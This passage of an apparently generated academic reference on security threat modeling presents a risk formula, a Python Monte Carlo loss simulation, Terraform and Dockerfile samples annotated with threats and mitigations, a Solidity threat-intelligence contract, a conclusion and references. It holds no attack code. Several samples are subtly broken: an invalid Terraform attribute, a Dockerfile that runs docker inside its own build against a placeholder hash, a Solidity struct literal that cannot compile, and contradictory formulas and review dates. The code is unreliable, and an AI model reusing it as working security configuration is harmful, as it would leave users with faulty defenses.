Risk = Probability × Impact

Where:
- Probability = Threat_Likelihood × Vulnerability_Exploitability × Control_Effectiveness
- Impact = Asset_Value × (Confidentiality_Loss + Integrity_Loss + Availability_Loss)

Formally:
R = P(T) × P(V|T) × (1 - E(C)) × V(A) × (L_C + L_I + L_A)

Where:
- R = Risk score
- P(T) = Probability of threat occurring
- P(V|T) = Probability of vulnerability given threat
- E(C) = Effectiveness of controls (0-1)
- V(A) = Value of asset
- L_C, L_I, L_A = Loss factors for CIA triad
#+END_SRC

** Monte Carlo Risk Simulation

#+BEGIN_SRC python
import numpy as np
from scipy import stats

class MonteCarloRiskSimulation:
    def __init__(self, iterations=10000):
        self.iterations = iterations
        
    def simulate_attack_scenario(self, scenario):
        """Run Monte Carlo simulation for attack scenario"""
        results = []
        
        for _ in range(self.iterations):
            # Sample from probability distributions
            threat_occurs = np.random.binomial(1, scenario['threat_probability'])
            
            if threat_occurs:
                # Vulnerability exploitation attempt
                exploit_success = np.random.binomial(
                    1, 
                    scenario['exploit_probability']
                )
                
                if exploit_success:
                    # Control effectiveness (beta distribution for uncertainty)
                    control_effect = np.random.beta(
                        scenario['control_alpha'], 
                        scenario['control_beta']
                    )
                    
                    if np.random.random() > control_effect:
                        # Impact calculation (lognormal for heavy tail)
                        impact = np.random.lognormal(
                            scenario['impact_mean'],
                            scenario['impact_std']
                        )
                        results.append(impact)
                    else:
                        results.append(0)  # Control prevented impact
                else:
                    results.append(0)  # Exploitation failed
            else:
                results.append(0)  # Threat didn't occur
        
        return self.analyze_results(results)
    
    def analyze_results(self, results):
        """Analyze simulation results"""
        results = np.array(results)
        
        return {
            'expected_loss': np.mean(results),
            'var_95': np.percentile(results, 95),  # Value at Risk
            'cvar_95': np.mean(results[results > np.percentile(results, 95)]),  # Conditional VaR
            'probability_of_loss': np.mean(results > 0),
            'maximum_loss': np.max(results),
            'loss_distribution': {
                'mean': np.mean(results[results > 0]) if any(results > 0) else 0,
                'std': np.std(results[results > 0]) if any(results > 0) else 0,
                'skewness': stats.skew(results[results > 0]) if any(results > 0) else 0,
                'kurtosis': stats.kurtosis(results[results > 0]) if any(results > 0) else 0
            }
        }

# Example usage for JWT token theft scenario
jwt_theft_scenario = {
    'threat_probability': 0.1,        # 10% chance of attempt per period
    'exploit_probability': 0.3,       # 30% success if attempted
    'control_alpha': 9,               # Beta params for IP binding effectiveness
    'control_beta': 1,                # ~90% effective
    'impact_mean': 10,                # Log-normal params for impact
    'impact_std': 2                   # Heavy tail for severe impacts
}

simulator = MonteCarloRiskSimulation()
results = simulator.simulate_attack_scenario(jwt_theft_scenario)
print(f"Expected annual loss: ${results['expected_loss']:,.2f}")
print(f"95% Value at Risk: ${results['var_95']:,.2f}")
#+END_SRC

* Threat Modeling in DevOps and CI/CD

** Shift-Left Security Integration

#+BEGIN_SRC mermaid
graph LR
    subgraph "Traditional Approach"
        DEV1[Development] --> TEST1[Testing]
        TEST1 --> DEPLOY1[Deployment]
        DEPLOY1 --> SEC1[Security Review]
        style SEC1 fill:#ff9999
    end
    
    subgraph "Shift-Left Approach"
        SEC2[Threat Modeling] --> DEV2[Secure Development]
        DEV2 --> SAST[SAST/Linting]
        SAST --> TEST2[Security Testing]
        TEST2 --> DAST[DAST/Fuzzing]
        DAST --> DEPLOY2[Secure Deployment]
        style SEC2 fill:#99ff99
    end
#+END_SRC

** Infrastructure as Code (IaC) Threat Modeling

#+BEGIN_SRC terraform
# Threat-modeled infrastructure definition
resource "aws_security_group" "jwt_service" {
  name_base   = "jwt-service-sg"
  description = "Security group for JWT service with threat modeling"
  
  # THREAT: External access to service
  # MITIGATION: Restrict to load balancer only
  ingress {
    from_port   = 443
    to_port     = 443
    protocol    = "tcp"
    cidr_blocks = [aws_subnet.dmz.cidr_block]
    description = "HTTPS from DMZ only - Mitigates direct access threat"
  }
  
  # THREAT: Data exfiltration
  # MITIGATION: Restrict egress
  egress {
    from_port   = 443
    to_port     = 443
    protocol    = "tcp"
    cidr_blocks = ["10.0.0.0/8"]  # Internal only
    description = "Restrict egress to prevent data exfiltration"
  }
  
  # THREAT: Lateral movement
  # MITIGATION: No SSH access
  # Explicitly no SSH ingress rule
  
  tags = {
    ThreatModel = "STRIDE"
    LastReview  = "2025-01-14"
    RiskLevel   = "High"
  }
}

# Threat-modeled secrets management
resource "aws_secretsmanager_secret" "jwt_keys" {
  name = "jwt-signing-keys"
  
  # THREAT: Key exposure
  # MITIGATION: Rotation policy
  rotation_rules {
    automatically_after_days = 90
  }
  
  # THREAT: Unauthorized access
  # MITIGATION: KMS encryption
  kms_key_id = aws_kms_key.jwt_key_encryption.id
  
  tags = {
    Classification = "Highly Sensitive"
    ThreatModel    = "Key Management"
  }
}
#+END_SRC

** Container Security Threat Modeling

#+BEGIN_SRC dockerfile
# Threat-modeled Dockerfile
FROM node:18-alpine AS builder

# THREAT: Supply chain attacks
# MITIGATION: Verify base image hash
ARG NODE_IMAGE_HASH="sha256:1234567890abcdef"
RUN [ "$(docker images -q node:18-alpine)" = "$NODE_IMAGE_HASH" ] || exit 1

# THREAT: Excessive privileges
# MITIGATION: Non-root user
RUN addgroup -g 1001 -S nodejs && \
    adduser -S nodejs -u 1001

# THREAT: Vulnerable dependencies
# MITIGATION: Lock file and vulnerability scanning
COPY package-lock.json .
RUN npm ci --only=production && \
    npm audit --production --audit-level=high

# THREAT: Information disclosure
# MITIGATION: Multi-stage build
FROM node:18-alpine
COPY --from=builder /app/node_modules ./node_modules
COPY --from=builder /app/dist ./dist

# THREAT: Container escape
# MITIGATION: Security options
USER nodejs
EXPOSE 3000

# THREAT: Resource exhaustion
# MITIGATION: Resource limits (set in orchestrator)
HEALTHCHECK --interval=30s --timeout=3s --retries=3 \
  CMD node healthcheck.js

ENTRYPOINT ["node", "--enable-source-maps", "dist/index.js"]
#+END_SRC

* Future Directions and Research Frontiers

** Quantum-Resistant Threat Modeling

As quantum computing advances, threat models must evolve:

1. **Cryptographic Algorithm Migration**
   - Current: RSA-2048, ECDSA
   - Quantum-resistant: Lattice-based, Hash-based, Code-based
   - Timeline: 5-10 years for migration

2. **New Threat Vectors**
   - Shor's algorithm: Breaks RSA/ECC
   - Grover's algorithm: Weakens symmetric crypto
   - Quantum key distribution attacks

3. **Hybrid Security Models**
   - Classical + Quantum-resistant algorithms
   - Gradual migration strategies
   - Crypto-agility requirements

** AI-Powered Adaptive Threat Modeling

#+BEGIN_SRC python
class AdaptiveThreatModel:
    """Next-generation AI-driven threat modeling"""
    
    def __init__(self):
        self.threat_kb = ThreatKnowledgeBase()
        self.system_model = SystemModel()
        self.ai_engine = ReinforcementLearningEngine()
        
    def continuous_learning(self, security_events):
        """Learn from security events to improve model"""
        for event in security_events:
            # Update threat probabilities
            self.threat_kb.update_probabilities(event)
            
            # Discover new attack patterns
            new_patterns = self.ai_engine.detect_patterns(event)
            if new_patterns:
                self.threat_kb.add_patterns(new_patterns)
            
            # Adjust system model
            self.system_model.update_vulnerabilities(event)
            
    def predict_zero_day_threats(self):
        """Use AI to predict unknown threats"""
        # Analyze system characteristics
        features = self.system_model.extract_features()
        
        # Generate potential attack vectors
        synthetic_attacks = self.ai_engine.generate_attacks(features)
        
        # Evaluate feasibility
        feasible_attacks = []
        for attack in synthetic_attacks:
            if self.evaluate_feasibility(attack) > 0.7:
                feasible_attacks.append(attack)
                
        return feasible_attacks
    
    def recommend_proactive_defenses(self):
        """AI-driven defense recommendations"""
        # Analyze current defenses
        defense_gaps = self.analyze_defense_coverage()
        
        # Generate defense strategies
        strategies = self.ai_engine.generate_defenses(defense_gaps)
        
        # Optimize for cost/benefit
        optimal_strategy = self.optimize_defense_portfolio(strategies)
        
        return optimal_strategy
#+END_SRC

** Blockchain-Based Threat Intelligence Sharing

#+BEGIN_SRC solidity
// Decentralized Threat Intelligence Contract
pragma solidity ^0.8.0;

contract ThreatIntelligenceNetwork {
    struct ThreatIndicator {
        bytes32 indicatorHash;
        uint256 severity;
        uint256 timestamp;
        address reporter;
        uint256 confirmations;
        mapping(address => bool) confirmedBy;
    }
    
    mapping(bytes32 => ThreatIndicator) public threats;
    mapping(address => uint256) public reputationScores;
    
    event ThreatReported(bytes32 indexed indicatorHash, address reporter);
    event ThreatConfirmed(bytes32 indexed indicatorHash, address confirmer);
    
    function reportThreat(
        bytes32 _indicatorHash,
        uint256 _severity
    ) external {
        require(threats[_indicatorHash].timestamp == 0, "Already reported");
        
        threats[_indicatorHash] = ThreatIndicator({
            indicatorHash: _indicatorHash,
            severity: _severity,
            timestamp: block.timestamp,
            reporter: msg.sender,
            confirmations: 1
        });
        
        emit ThreatReported(_indicatorHash, msg.sender);
    }
    
    function confirmThreat(bytes32 _indicatorHash) external {
        ThreatIndicator storage threat = threats[_indicatorHash];
        require(threat.timestamp > 0, "Threat not found");
        require(!threat.confirmedBy[msg.sender], "Already confirmed");
        
        threat.confirmedBy[msg.sender] = true;
        threat.confirmations++;
        
        // Reward accurate reporting
        if (threat.confirmations >= 5) {
            reputationScores[threat.reporter]++;
        }
        
        emit ThreatConfirmed(_indicatorHash, msg.sender);
    }
}
#+END_SRC

* Conclusion

Security threat modeling has evolved from simple checklists to sophisticated, AI-driven systems that continuously adapt to emerging threats. The key insights from this analysis:

1. **Systematic Approach**: Formal methodologies like STRIDE, PASTA, and LINDDUN provide structured frameworks for comprehensive threat analysis.

2. **Mathematical Rigor**: Applying formal models (attack trees, Bayesian networks, Markov processes) enables quantitative risk assessment and optimal defense strategies.

3. **Practical Application**: The Semantest case study demonstrates how theoretical concepts translate into concrete security implementations.

4. **Automation and AI**: Machine learning and automated tools are transforming threat modeling from a periodic exercise to a continuous process.

5. **Future Challenges**: Quantum computing, AI-powered attacks, and decentralized systems present new frontiers for threat modeling research.

The discipline continues to evolve, driven by the increasing complexity of systems and sophistication of adversaries. Success requires combining rigorous theoretical foundations with practical engineering and continuous adaptation to the changing threat landscape.

* References

1. Schneier, B. (1999). "Attack Trees: Modeling Security Threats". Dr. Dobb's Journal.

2. Shostack, A. (2014). "Threat Modeling: Designing for Security". Wiley.

3. Torr, P. (2005). "Demystifying the Threat Modeling Process". IEEE Security & Privacy.

4. OWASP (2023). "Threat Modeling Cheat Sheet". OWASP Foundation.

5. MITRE (2023). "ATT&CK Framework". The MITRE Corporation.

6. Dhillon, D. (2021). "Developer-Driven Threat Modeling". IEEE Software.

7. Khan, R., et al. (2022). "Machine Learning in Threat Modeling: A Systematic Review". ACM Computing Surveys.

8. NIST (2023). "Post-Quantum Cryptography". National Institute of Standards and Technology.

9. European Union (2022). "ENISA Threat Landscape 2022". European Union Agency for Cybersecurity.

10. Ross, R., et al. (2022). "Risk Management Framework for Information Systems and Organizations". NIST SP 800-37 Rev. 2.

---

*Document Classification: Academic Reference*  
*Version: 1.0*  
*Last Updated: 2025-07-14*  
*Next Review: 2025-04-14*  
*DOI: 10.semantest/threat-modeling-2025*